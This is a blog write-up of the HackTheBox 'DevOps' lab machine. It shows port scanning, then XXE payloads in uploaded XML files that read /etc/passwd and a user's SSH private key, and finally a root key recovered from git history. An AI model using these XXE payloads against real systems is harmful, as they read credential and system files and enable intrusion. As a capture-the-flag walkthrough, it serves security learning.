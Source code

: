 ```yaml
---
layout: post
title: "HackTheBox: Devops write-up"
date: 2018-10-14
excerpt: "XXE is cool, a git repository could be as well... Wanna have a look at this box?"
tags: [Pentesting, Hack The Box, XXE, RSA, GIT, SSH]
comments: true
feature: http://www.bestdevops.com/wp-content/uploads/2017/08/devops-tools-375x210.png
---
```


# Hack The Box: DevOps machine write-up

This machine was quite interesting and not so difficult, as it was based on an XML external entity attack which lead to user and then just a basic .git inspection, which is similar to some CTF challenges I had previously done. Its ip is 10.10.10.91.

### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA nmap/initial 10.10.10.91
```

And the result was:

```sh
# Nmap 7.01 scan initiated Wed Sep  5 23:42:28 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.91
Nmap scan report for 10.10.10.91
Host is up (0.89s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|_  256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  5 23:42:40 2018 -- 1 IP address (1 host up) scanned in 12.14 seconds
```

So we find that there is a web server listening on port 5000, which is not the default port 80. Upon visiting the webpage, we get the following:

*Initial message*

![Img](/assets/posts_details/Devops/images/initial.png "Img")

Nothing to check, so I decide to run background recognition with dirb:

```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  6 00:12:15 2018
URL_BASE: http://10.10.10.91:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.91:5000/ ----

+ http://10.10.10.91:5000/feed (CODE:200|SIZE:546263)                          
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)                           

-----------------
END_TIME: Thu Sep  6 00:22:05 2018
DOWNLOADED: 4612 - FOUND: 2
```

Something interesting!

*Upload page*

![Img](/assets/posts_details/Devops/images/upload.png "Img")

Looks like there is a test API to upload XML files... Definitely suspicious, we're on the right track. The file needs to have three elements: Author, Subject and Content, so let's craft a new XML file to test the functionality.

At first I uploaded this file:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<file>
	<Author>John, Doe</Author>
	<Subject>Hello</Subject>
	<Content>Computers</Content>
</file>
```

Which resulted in the following output:

*Output page*

![Img](/assets/posts_details/Devops/images/output.png "Img")

### Exploit

This reminded me of XXE, so I modified the file a bit to try to access the ``/etc/passwd`` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

If this worked, the resulting page would list the contents of the file. Let's see the output:

*Output page (second test)*

![Img](/assets/posts_details/Devops/images/passwd.png "Img")

And indeed it works!

From there we can extract the following path: ``/home/roosa``, which now we're going to use to get the RSA private key used in the SSH service we saw before. The new file will thus be:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

And we get roosa's private [key](roosa.key). Then, we just log in through ssh with the following command: ``ssh -i roosa.key roosa@10.10.10.91`` (we must remember to change file permissions to 600, otherwise this won't work).

And we're in an can read the hash in ``user.txt``:

*Getting user hash*

![Img](/assets/posts_details/Devops/images/user.png "Img")

### Root

Once logged in, we notice some interesting directories: ``deploy`` and ``work``. I decide to have a look at them. It turned out ``deploy`` was just the webpage we saw earlier, but then I found something in ``work``:

```console
roosa@gitter:~$ ls -al work
total 12
drwxrwxr-x  3 roosa roosa 4096 Mar 21 07:17 .
drwxr-xr-x 22 roosa roosa 4096 May 29 10:32 ..
drwxrwx---  5 roosa roosa 4096 Mar 21 05:29 blogfeed
roosa@gitter:~$ ls -al work/blogfeed
total 28
drwxrwx--- 5 roosa roosa 4096 Mar 21 05:29 .
drwxrwxr-x 3 roosa roosa 4096 Mar 21 07:17 ..
drwxrwx--- 8 roosa roosa 4096 Mar 26 06:13 .git
-rw-rw---- 1 roosa roosa  104 Mar 19 09:24 README.md
drwxrwx--- 3 roosa roosa 4096 Mar 19 09:31 resources
-rwxrw-r-- 1 roosa roosa  180 Mar 21 05:29 run-gunicorn.sh
drwxrwx--- 2 roosa roosa 4096 Mar 26 06:43 src
```

There is a git repo! That means we can check previous stages of the project.

*git log output*

![Img](/assets/posts_details/Devops/images/git-log.png "Img")

I decide to go back to the second commit because it says that it contains the `key for feed integration from tnerprise backend`, which looks promising.

As we're in a public environment with lots of people I won't do ``git checkout {commit}``, which would restore all files to that point in history for everyone. Instead, I used ``git diff {commit}`` to get the changes made between that commit and the one I'm on.

*git diff output*

![Img](/assets/posts_details/Devops/images/git-diff.png "Img")

Voilà! We just discovered that our ``roosa.key`` (highlighted in green) replaced a previous key (in red). Let's recover it!

I didn't know where to use it, but seeing it was an SSH key I decided to use it again, this time with root user:

*Using the key to log in as root*

![Img](/assets/posts_details/Devops/images/root.png "Img")

And that's all! I hope you enjoyed and learned something!

---

*Diego Bernal Adelantado*
